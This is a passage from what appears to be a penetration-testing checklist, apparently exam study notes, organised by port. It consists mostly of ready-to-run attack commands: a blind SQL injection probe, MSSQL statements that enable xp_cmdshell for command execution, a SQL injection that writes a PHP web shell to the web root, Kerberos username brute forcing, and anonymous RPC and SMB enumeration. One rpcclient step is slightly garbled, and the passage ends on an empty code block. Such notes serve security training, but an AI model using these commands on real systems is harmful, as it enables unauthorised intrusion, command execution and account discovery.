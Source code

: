 ```sql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

#### Windows based code execution SQL injection
- [ ] Attempt these commands in the SQLi sequentially
```powershell
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```
- [ ] Save it as `webshell.php` in a writeable web folder, then navigate to `http://192.168.xxx.xxx/tmp/webshell.php?cmd=id`
```sql
UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

---
## Port 88 (Kerberos) (Domain Controller)

- [ ] Try brute forcing, but this would take a while and needs a shorter `userlist` in `userdb`
```
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=/usr/share/wordlists/seclists/usernames/names/names.txt 10.10.xxx.xxx
```

---
## Port 135 (Microsoft RPC)

- [ ] Connect with no credentials, or credentials if you have them
```
rpcclient -U '' 192.168.xxx.xxx
```

#### Once authenticated
- [ ] Use rpcclient to enum domain users
```
enumdomusers
```
- [ ] Use rpcclient to dump AD info
```
querydispinfo
```
- [ ] Use rpcclient to enumerate members of a contractor
```
enumdomgroups /querygroupmen
```
---

## Port 139/Port 445 (SMB)
- [ ] Use NMAP script to enumerate
```
nmap --script=smb-enum-users,smb-enum-shares,smb-os-discovery -p 139,445 192.168.xxx.xxx
```
- [ ] Try the following configurations to connect
```
smbclient -U '' -L \\\\192.168.xxx.xxx
smbclient -U '' -N -L \\\\192.168.xxx.xxx
smbclient -U '%' -N -L \\\\192.168.xxx.xxx
smbclient -U '%' -N \\\\192.168.xxx.xxx\\<Folder>
```
- [ ] Random username with no password and try for anonymous login
```
```